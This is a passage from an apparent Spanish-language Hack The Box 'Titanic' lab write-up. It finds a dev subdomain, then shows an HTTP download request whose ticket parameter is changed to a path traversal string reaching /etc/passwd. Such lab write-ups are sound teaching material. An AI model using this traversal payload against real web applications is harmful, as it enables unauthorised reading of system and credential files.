 Y encontramos uno **dev.titanic.htb** el cual debemos agregar al /etc/hosts.

Por ahora no queda más que explorar la web:
<div style="text-align: center;">
  <img src="/assets/images/HTB/Titanic/web.png" alt="under" oncontextmenu="return false;">
</div>

Si ordenamos un Book para el crucero vemos por URL la variable ticket la cual nos puede permitir apuntar a otro archivo como el `/etc/passwd`:

```d
GET /download?ticket=c7a10956-ca61-4607-9ea0-d5cab200cbb7.json HTTP/1.1 -> Cambiar a ticket=../../../../../../../../../etc/passwd
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0
....
```
<div style="text-align: center;">